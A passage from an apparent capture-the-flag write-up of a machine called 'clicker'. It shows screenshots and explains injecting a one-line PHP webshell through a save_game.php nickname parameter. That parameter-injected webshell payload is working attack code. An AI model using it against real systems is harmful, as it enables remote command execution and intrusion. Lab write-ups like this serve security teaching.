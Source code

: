 ![clicker](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/clicker/7.png)
![clicker](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/clicker/8.png)


Since I can create PHP pages and have access to the database, I can set a player's nickname to a PHP webshell that can be executed on the page. To do this, I'll start by updating my player's nickname using the same method explained above.
```
/save_game.php?nickname=<?=`$_GET[0]`?>
```
